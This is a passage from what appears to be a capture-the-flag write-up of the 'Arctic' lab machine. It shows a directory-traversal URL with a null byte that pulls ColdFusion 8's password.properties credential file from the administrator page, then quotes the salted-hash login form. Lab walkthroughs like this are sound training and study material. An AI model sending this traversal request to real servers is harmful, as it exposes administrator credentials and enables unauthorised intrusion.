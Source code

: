 From this page, we see that we can simply replace the server part with the IP address given, and visit the following HTML:

```python
http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

![Arctic%20f41e652759f84642a43c44e8e094704e/Untitled%209.png](Arctic%20f41e652759f84642a43c44e8e094704e/Untitled%209.png)

This will then allow us to see a password displayed on the website, but it is noteworthy that "encrypted=true"

Taking a closer look, we see the following code in the page source

```python
<form name="loginform" action="/CFIDE/administrator/enter.cfm" method="POST" 
onSubmit="cfadminPassword.value = hex_hmac_sha1(salt.value, hex_sha1(cfadminPassword.value));" >
```
